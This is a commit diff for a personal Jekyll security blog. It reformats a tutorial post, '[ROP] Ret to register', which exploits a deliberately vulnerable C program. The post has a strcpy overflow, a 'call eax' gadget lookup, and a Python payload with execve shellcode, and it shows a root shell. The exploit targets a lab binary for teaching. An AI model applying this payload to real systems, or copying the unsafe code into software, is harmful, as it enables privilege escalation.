

Before and after one commit to meffre-q/quentinmeffre.fr, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 614 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; grey boxes are pictures that could not be loaded.

Commit message:
ADD: Ret to register post

````diff
--- a/_posts/2017-01-29-ret_to_libc.md
+++ b/_posts/2017-01-29-ret_to_libc.md
@@ -3,7 +3,7 @@ layout: post
 title: "[ROP] Ret to LibC"
 categories: [pwn]
 tags: [pwn, ROP]
-description: How to bypass NX/ASLR protections using "ret to LibC" attacks on a x64 Linux system.
+description: How to bypass NX/ASLR protections using "ret to LibC" attack on a x86 Linux system.
 ---
 
 Tools:
--- a/_posts/ret_to_register.md
+++ b/_posts/2017-01-31-ret_to_register.md
@@ -1,3 +1,11 @@
+---
+layout: post
+title: "[ROP] Ret to register"
+categories: [pwn]
+tags: [pwn, ROP]
+description: How to bypass NX/ASLR protections using "ret to register" attack on a x64 Linux system.
+---
+
 Tools:
 1. objdump
 2. ROPgadget
@@ -10,14 +18,17 @@ Compilation: Dynamic
 Architecture: x86
 
 Operating System: Linux (Debian)
-#1. Explanation
+
+# 1. Explanation
 Today I will show you an other method to exploit Return Oriented Programming. It name is "ret to register". Thanks to register we will be able to execute a shellcode.
 
 In assemby language (x86/x64) when we call a function, his return value is stored in the RAX/EAX register. For exemple, the strcpy return a pointer to the destination string. It means that if we overflow the saved "RIP/EIP" register with a gadget like "call eax/jmp eax" we will jump to the stack wich contain us shellcode !
 
 This method is very usefull but it needed to have the NX bit disable.
-#2. Vulnerable binary
-<pre><code class="cpp">#include &lt;string.h&gt;
+
+# 2. Vulnerable binary
+```c
+#include <string.h>
 
 // gcc main.c -z execstack -fno-stack-protector -m32
 
@@ -33,28 +44,36 @@ int main(int ac, char **av)
   vuln(av[1]);
   return 0;
 }
-</code></pre>
+```
+
 It's a very simple program that contain an overflow to the "strcpy" call. We will use the overflow to exploit this program.
-#3. The payload
+
+# 3. The payload
 The payload will look like:
-<pre><code class="cpp">+-----------------+
+```bash
++-----------------+
 |    shellcode    |
 +-----------------+
 |     padding     |
 +-----------------+
 |    call eax     |
-+-----------------+</code></pre>
++-----------------+
+```
+
 The only things we need is the "call eax" gadget, always thanks to ROPgadget:
-<pre><code class="bash">$ ROPgadget --binary a.out | grep "call eax"
+```bash
+$ ROPgadget --binary a.out | grep "call eax"
 ...
 0x08048363 : call eax
 ...
-</code></pre>
+```
+
 For the shellcode, I choose simple "execve('/bin/dash', NULL, NULL)", 38 bytes lenght.
 And that's it for the payload !
 
 The whole payload will look:
-<pre><code class="python">#!/usr/bin/env python2.7
+```python
+#!/usr/bin/env python2.7
 
 from struct import pack
 
@@ -66,13 +85,17 @@ shellcode = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8
 
 payload = shellcode + '\x90' * 102 # Padding
 
-payload += pack("&lt;I", 0x08048363) # call eax
+payload += pack("<I", 0x08048363) # call eax
 
 print payload
-</code></pre>
-#4. Exploitation
+```
+
+# 4. Exploitation
 We test our payload:
-<pre><code class="bash">$ ./a.out $(python rop.py)
+```bash
+$ ./a.out $(python rop.py)
 id
-uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)</code></pre>
+uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
+```
+
 Done.
````
Also changed, not shown: 11 other files.
